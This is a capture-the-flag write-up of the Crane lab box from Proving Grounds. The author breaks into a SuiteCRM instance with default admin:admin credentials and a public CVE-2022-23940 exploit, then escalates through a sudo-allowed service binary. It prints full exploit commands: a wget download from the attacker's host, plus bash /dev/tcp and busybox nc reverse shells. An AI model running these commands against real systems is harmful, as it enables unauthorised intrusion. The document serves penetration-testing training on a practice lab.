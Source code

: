 ```yaml
---
layout: writeup
title: Crane - Proving Grounds
date: 2024-07-12 13:32:20 +0300
description: A Writeup of the Crane Box from Proving Grounds
image: # /assets/images/Crane/Crane_5.png
fig-caption: # Add figcaption (optional)
tags: [Linux, TJ Null]
---
```



Here is a writeup for the Crane lab on [Proving Grounds](https://www.offsec.com/labs/), another box from TJ Null's OSCP [lab prep list](https://docs.google.com/spreadsheets/u/1/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/htmlview#). I start out with an nmap scan and check out port 80 as soon as it pops up. 

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 37:80:01:4a:43:86:30:c9:79:e7:fb:7f:3b:a4:1e:dd (RSA)
|   256 b6:18:a1:e1:98:fb:6c:c6:87:55:45:10:c6:d4:45:b9 (ECDSA)
|_  256 ab:8f:2d:e8:a2:04:e7:b7:65:d3:fe:5e:93:1e:03:67 (ED25519)
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-title: SuiteCRM
|_Requested resource was index.php?action=Login&module=Users
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.4.38 (Debian)
3306/tcp open  mysql   MySQL (unauthorized)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

![[Crane_5.png]](/assets/images/Crane/Crane_5.png){: .center-aligned width="600px"}

Looks like we have a web app entitled SuiteCRM. I check the source for a version and run a gobuster scan, but it also turns out I can log into using admin:admin. This might come in handy because I see some authenticated exploits on exploit-db. 

It looks like this one actually has admin:admin hardcoded. Maybe I can check authenticated exploits for clues like that in the future. We'll download it and change the URL.

![Crane_4.png](/assets/images/Crane/Crane_4.png){: .responsive-image}

I can't get this one working, but I look around on Google, and I find another one here: https://github.com/manuelz120/CVE-2022-23940. 

After cloning the repo I run this command: `python3 exploit.py -h http://192.168.162.146/index.php -u admin -p admin -P 'wget http://192.168.45.154/shell8080.sh'` and the file is downloaded. That means we have execution at least. Unfortunately I can't get the shell to execute, or at least I can't get the reverse shell.  I make a note to retry with different shells and ports and from different directories. It makes sense to start with ports first, but I try with 80, 8080, 443, and 3306 (because there is a SQL server running) using a simpler shell (`/bin/bash -i >& /dev/tcp/192.168.45.154/80 0>&1`). Nothing on that unfortunately. 

I try a few other reverse shells and can't seem to get them working on any port, until I try this one: `busybox nc 192.168.45.154 80 -e /bin/bash`. The full command is  `python3 exploit.py -h http://192.168.162.146/index.php -u admin -p admin -P 'busybox nc 192.168.45.154 80 -e /bin/bash'`. I'm not sure I've used this one much, but I noticed in someone else's OSCP notes as a notably good one. Maybe I need to try it more, but I did get a shell with it as www-data. 

I download and run `linpeas.sh` to scope the machine out. The /usr/sbin/service binary immediately jumps out while I'm scrolling through the linpeas output. 

![Crane_3.png](/assets/images/Crane/Crane_3.png){: .responsive-image}

Then I notice I can run it using sudo. That's a good sign. 

![Crane_2.png](/assets/images/Crane/Crane_2.png){: .responsive-image}

Bingo. 

![Crane_1.png](/assets/images/Crane/Crane_1.png){: .responsive-image}

What did we learn on this box? Don't give up if a few shells don't work, and spend some more time with that busybox one in particular. Oh - and try admin:admin when logging into a service. Note that there is a local.txt file in the /var/www/html directory. I missed that when I got the initial shell. 


